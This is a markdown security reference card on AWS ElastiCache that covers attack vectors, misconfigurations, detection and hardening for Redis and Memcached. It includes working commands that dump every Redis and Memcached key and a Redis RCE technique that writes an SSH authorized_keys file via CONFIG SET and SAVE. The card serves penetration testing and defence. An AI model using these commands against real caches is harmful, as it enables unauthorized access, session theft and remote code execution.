

#  AWS ElastiCache Security



> **Category**: IN-MEMORY CACHE

ElastiCache provides managed Redis and Memcached. Often stores session tokens, API keys, and cached credentials. Historically deployed without authentication - a goldmine for attackers.

## Quick Stats

| Risk Level | Access | Engines | Default Ports |
| --- | --- | --- | --- |
| **HIGH** | **VPC Only** | **Redis/MC** | **6379/11211** |

## Service Overview

### Redis (ElastiCache for Redis)

In-memory data structure store supporting strings, hashes, lists, sets. Supports AUTH command, ACLs (Redis 6+), and encryption. Often stores sessions, rate limits, and cached API responses.

> Attack note: Many Redis instances still run without AUTH. If accessible, dump all keys with KEYS * and extract sensitive data.

### Memcached

Simple key-value cache with no built-in authentication. Relies entirely on network security. Often stores serialized objects that may contain credentials or sensitive data.

> Attack note: Memcached has NO authentication - if you can reach it, you own it. Use stats slabs and cachedump to extract all keys.

## Security Risk Assessment

`████████░░` **8.0/10** (CRITICAL)

ElastiCache instances often contain session tokens, API keys, cached credentials, and user data. Legacy deployments without AUTH are common. Network access = full data access in most cases.

## ⚔️ Attack Vectors

### Direct Access

- Connect via redis-cli or telnet
- KEYS * to enumerate all keys
- GET <key> to extract values
- DUMP all data for offline analysis
- SCAN for incremental enumeration

### Advanced Attacks

- Lua script execution (EVAL)
- CONFIG SET to modify settings
- SLAVEOF for data replication
- MODULE LOAD for RCE (if enabled)
- MIGRATE to copy data externally

## ⚠️ Misconfigurations

### Authentication Issues

- No AUTH password configured
- Default or weak AUTH password
- No ACLs (Redis 6+)
- AUTH token in application logs
- Shared credentials across envs

### Network Issues

- Security group allows 0.0.0.0/0
- Accessible from untrusted subnets
- No encryption in transit (TLS)
- Public subnet placement
- VPC peering exposes cache

## 🔍 Enumeration

**List ElastiCache Clusters**
```bash
aws elasticache describe-cache-clusters
```

**List Replication Groups (Redis)**
```bash
aws elasticache describe-replication-groups
```

**Get Cluster Endpoints**
```bash
aws elasticache describe-cache-clusters \\
  --show-cache-node-info \\
  --query 'CacheClusters[].CacheNodes[].Endpoint'
```

**Check Security Groups**
```bash
aws elasticache describe-cache-clusters \\
  --query 'CacheClusters[].SecurityGroups'
```

**Check Auth Token Enabled**
```bash
aws elasticache describe-replication-groups \\
  --query 'ReplicationGroups[].AuthTokenEnabled'
```

## 🔓 Redis Exploitation

### Data Extraction

- KEYS * - list all keys
- GET session:* - steal sessions
- HGETALL user:* - dump user data
- LRANGE queue:* 0 -1 - read queues
- SMEMBERS set:* - read sets

### Redis RCE Techniques

- Write SSH key via CONFIG SET
- Write crontab via CONFIG SET
- Lua script execution (EVAL)
- Module loading (if allowed)
- Master-slave replication attack

> **Classic RCE:** CONFIG SET dir /root/.ssh && CONFIG SET dbfilename authorized_keys && SET x "ssh-rsa AAAA..." && SAVE

## 📦 Memcached Exploitation

### Data Extraction

- stats - server statistics
- stats slabs - memory allocation
- stats cachedump <slab> <limit> - dump keys
- get <key> - retrieve value
- stats items - item statistics

### Common Key Patterns

- session_* - user sessions
- user_* - cached user data
- api_key_* - API credentials
- token_* - auth tokens
- cache_* - general cached data

## 🛡️ Detection

### CloudTrail Events

- DescribeCacheClusters - enumeration
- CreateCacheCluster - new cache
- ModifyCacheCluster - config change
- ModifyReplicationGroup - replication change
- Note: No data plane logging!

### Network Detection

- VPC Flow Logs on cache subnets
- Unusual source IPs to port 6379/11211
- Large data transfers from cache
- Connections from unexpected instances
- GuardDuty EC2 finding types

## Exploitation Commands

**Connect to Redis (No Auth)**
```bash
redis-cli -h my-cache.xxxxx.use1.cache.amazonaws.com -p 6379
```

**Connect to Redis (With Auth)**
```bash
redis-cli -h my-cache.xxxxx.use1.cache.amazonaws.com -p 6379 \\
  --tls -a 'AUTH_TOKEN'
```

**Dump All Redis Keys**
```bash
redis-cli -h HOST KEYS '*' | while read key; do
  echo "=== $key ==="
  redis-cli -h HOST GET "$key"
done
```

**Connect to Memcached**
```bash
telnet my-cache.xxxxx.cfg.use1.cache.amazonaws.com 11211
```

**Dump Memcached Keys**
```bash
echo "stats cachedump 1 100" | nc HOST 11211
# Then: echo "get <key>" | nc HOST 11211
```

**Redis SSH Key RCE**
```bash
redis-cli -h HOST
> CONFIG SET dir /var/lib/redis/.ssh
> CONFIG SET dbfilename authorized_keys
> SET pwn "\
\
ssh-rsa AAAA...\
\
"
> SAVE
```

## Policy Examples

### ❌ Dangerous - No Auth, Open Security Group

```json
# Cluster Config
AuthTokenEnabled: false
TransitEncryptionEnabled: false
AtRestEncryptionEnabled: false

# Security Group
Inbound: 0.0.0.0/0:6379 (ALLOW)
```

*No authentication, no encryption, accessible from anywhere - fully compromised*

### ✅ Secure - Auth, Encryption, Restricted

```json
# Cluster Config
AuthTokenEnabled: true
TransitEncryptionEnabled: true
AtRestEncryptionEnabled: true
KmsKeyId: arn:aws:kms:...:key/xxx

# Security Group
Inbound: sg-app-servers:6379 (ALLOW)
```

*AUTH required, TLS enabled, KMS encryption, restricted to app security group*

### ❌ Risky - Weak Network Controls

```json
# Security Group
Inbound: 10.0.0.0/8:6379 (ALLOW)
# Allows entire corporate network

# Subnet
SubnetType: Private
# But VPC peering allows access
```

*Too broad network access - any compromised instance can reach cache*

### ✅ Secure - Redis 6 ACLs

```json
# Redis ACL Configuration
user app-reader on >password ~session:* +get +mget
user app-writer on >password ~cache:* +set +get +del
user admin on >strongpass ~* +@all

# Default user disabled
user default off
```

*Granular ACLs with least privilege per application role*

## Defense Recommendations

### 🔐 Enable AUTH (Redis)

Always configure AUTH token. Use strong, rotated passwords.

```bash
aws elasticache modify-replication-group \\
  --replication-group-id my-group \\
  --auth-token 'NewStrongToken123!' \\
  --auth-token-update-strategy ROTATE
```

### 🔒 Enable TLS Encryption

Enable in-transit encryption for all connections.

```bash
aws elasticache modify-replication-group \\
  --replication-group-id my-group \\
  --transit-encryption-enabled
```

### 🔑 Enable At-Rest Encryption

Encrypt data at rest with KMS keys.

```bash
aws elasticache create-replication-group \\
  --at-rest-encryption-enabled \\
  --kms-key-id arn:aws:kms:...:key/xxx
```

### 🚫 Restrict Security Groups

Only allow connections from specific application security groups.

### 👥 Use Redis 6 ACLs

Implement granular access control with user-based permissions.

### 📊 Monitor with VPC Flow Logs

Since no data plane CloudTrail, use flow logs to detect unusual access.

---

*AWS ElastiCache Security Card*

*Always obtain proper authorization before testing*
